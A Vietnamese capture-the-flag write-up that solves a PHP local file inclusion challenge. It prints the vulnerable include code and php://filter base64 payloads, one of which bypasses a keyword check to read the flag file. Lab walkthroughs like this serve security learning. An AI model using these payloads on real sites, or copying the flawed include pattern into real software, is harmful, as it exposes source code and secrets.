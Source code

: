Mở đầu challenge, cho ta trang web có 2 link `woofers` và `meowers`.Mình thử nhấp vào 1 trong 2.Nhận thấy URL thay đổi `/index.php?category=woofers`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/760e8341-4d7e-44d6-9317-b5ea50c6556d)

Mình nghĩ bài này là RCE.Mình thử đọc file index bằng payload sau.

`php://filter/convert.base64-encode/resource=index`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/4d638aa3-1a15-46d0-a7d0-e7365fb24352)

Kết quả trả về là 1 dãy base64.Sau khi decode.

```php
 <?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>
```

Đầu tiên giá trị của tham số `category` được truyền trong URL cho biến $file.Sau đó nó kiểm tra xem chuỗi biến $file có chứa các từ `woofers`, `meowers` hoặc `index` không. Nếu chuỗi $file chứa ít nhất một trong ba từ này, hoặc là `woofers`, hoặc là `meowers`, hoặc là `index`, thì điều kiện sẽ trả về true.Sau đó thì nó sẽ mở một file php tương ứng với giá trị của biến file.Vì ta cần flag nên thử để giá trị của file là flag xem sao.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/d21adce0-8f88-42e2-b70c-8ad2a00fe5b1)

Nhận thấy load thành công file flag.

`php://filter/convert.base64-encode/woofers/resource=flag`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/656aaf2f-0d12-4307-bf6e-2f4021260184)

Sau đó chỉ cần decode là xong.
